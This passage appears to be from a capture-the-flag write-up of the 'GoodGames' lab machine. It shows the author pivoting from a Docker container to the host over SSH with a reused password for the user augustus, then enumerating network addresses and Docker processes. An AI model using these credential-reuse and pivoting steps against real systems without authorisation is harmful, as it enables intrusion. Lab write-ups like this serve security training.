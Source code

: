 

A quick `curl` of `172.19.0.1` returns the website, which suggests that
port is being forwarded back to this container through the host.

### SSH

I'll check for password reuse, and it works for augustus on the host:



    root@3a453ab39d3d:~# ssh augustus@172.19.0.1 
    The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
    ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
    augustus@172.19.0.1's password:
    Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    augustus@GoodGames:~$



## Shell as root

### Enumeration

#### Host

This shell does seem to be on GoodGames itself. The IP matches the
machine's IP:



    augustus@GoodGames:~$ hostname -I
    10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:809b 



Docker is in the process list, and it matches what I suspected from the
container's point of view:



    augustus@GoodGames:~$ ps auxww | grep docker
    root       908  0.0  2.1 1457176 86204 ?       Ssl  02:40   0:09 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
    root      1246  0.0  0.2 1222636 9616 ?        Sl   02:40   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085



#### Home Directory
